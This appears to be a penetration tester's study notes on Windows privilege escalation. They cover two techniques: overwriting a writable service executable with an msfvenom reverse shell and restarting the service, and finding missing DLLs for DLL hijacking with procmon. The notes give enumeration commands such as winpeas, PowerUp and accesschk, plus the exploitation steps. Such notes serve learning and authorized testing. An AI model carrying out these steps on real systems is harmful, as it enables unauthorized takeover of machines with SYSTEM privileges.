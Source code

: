 ### InsecureServiceExecutables

Vulnerable service identikit:
1. write permissions in the directory where is located the executable runned by a service
2. service that starts automatically or for which you have start and stop privileges (`SERVICE_START` and `SERVICE_STOP`)
3. service runned by service account with elevated privileges, for example `LocalSystem`

Vulnerable service enumeration:
- `winpeas.exe servicesinfo` - ideal
- `Get-ModifiableServiceFile` - *PowerUp.ps1*

Write permission check on the service executable:
- `accesschk.exe /accepteula -quvw "<path to exe>"` - **Requirement**: `FILE_ALL_ACCESS` or write permission

Check start/stop privileges of service:
- `accesschk.exe /accepteula -cquv <username> <service name>`
- `sc qc <service name>`
- **Requirements**: 
	- if `START_TYPE` equal to `3 DEMAND_START`, `SERVICE_START` and `SERVICE_STOP` are required
	- if `START_TYPE` equal to `2 AUTO_START`, `SeShutdownPrivilege` is required

Exploitation:
- create an executable reverse shell with *msfvenom*
- backup original executable:
	- `copy "</abs/path/to/original/exe>" C:\Temp`
- overwrite executable of vulnerabile service:
	- `copy /Y <abs path revshell> "</asb/path/to/original/exe>"`
- reboot vulnerable service:
	- (if `DEMAND_START`) `net stop <service name>` and `net start <service name>` (alternative: `sc`)
	- (if `AUTO_START` and `SeShutdownPrivilege` privilege) `shutdown /r /t 0`

### DLLHijacking

Vulnerable service identikit:
1. write permission in one of the PATH directories
2. "DLL not found" for executable of service
3. service for which you have start and stop privileges (`SERVICE_START` and `SERVICE_STOP`)
4. service runned by service account with elevated privileges, for example `LocalSystem`

Writable directories of PATH from our user:
- `winpeas.exe servicesinfo` - ideal
- `for %A in ("%path:;=";"%") do ( accesschk.exe /accepteula %username% -dquvw %A 2>nul )` - by me (all PATH directories with `echo %PATH:;=&echo.%`) -  alternatively, you can locate the directories 'NAME_NOT_FOUND' in *procmon*.

*Magic* is to find which executable of a vulnerable service runs a missing DLL.

Analysis of the vulnerable service executable:
1. transfer executable in target machine
2. running `procmon` as Administrator. You need enable `Show Registry Activity` and `Show Network Activity`
3. stop current capture e clean the list
4. press  `CTRL+l` and add the following filter: `Process name is <executable name>`
5. start the capture again and launch the executable
6. in the results, we see which DLLs we get `NAME NOT FOUND` for.
